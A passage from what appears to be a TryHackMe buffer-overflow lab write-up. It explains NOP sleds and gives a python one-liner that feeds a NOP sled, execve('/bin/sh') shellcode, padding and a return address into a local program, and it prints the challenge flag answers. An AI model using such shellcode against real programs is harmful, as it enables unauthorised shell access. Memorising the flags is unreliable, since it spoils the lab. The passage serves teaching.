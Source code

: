 In theory, this looks like it would work quite well. However, memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. So we can make this more flexible using a NOP instruction. A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

<img src="/assets/images/THM/Buffer%20Overflows/22.png" width="80%">

You’ve probably noticed that shellcode, memory addresses and NOP sleds are usually in hex code. To make it easy to pass the payload to an input program, you can use python:

```bash
python -c “print (NOP * no_of_nops + shellcode + random_data * no_of_random_data + memory address)”
```

Using this format would be something like this for this challenge:

```bash
python -c “print(‘\x90’ * 30 + ‘\x48\xb9\x2f\x62\x69\x6e\x2f\x73\x68\x11\x48\xc1\xe1\x08\x48\xc1\xe9\x08\x51\x48\x8d\x3c\x24\x48\x31\xd2\xb0\x3b\x0f\x05’ +
‘\x41’ * 60 + 
‘\xef\xbe\xad\xde’) | ./program_name
 ”
```

> Use the above method to open a shell and read the contents of the secret.txt file `omgyoudidthissocool!!`

In some cases you may need to pass xargs before ./program_name.

***

## <strong><font color="#34A5DA">Buffer Overflow 2</font></strong>

> Use the same method to read the contents of the secret file! `wowanothertime!!`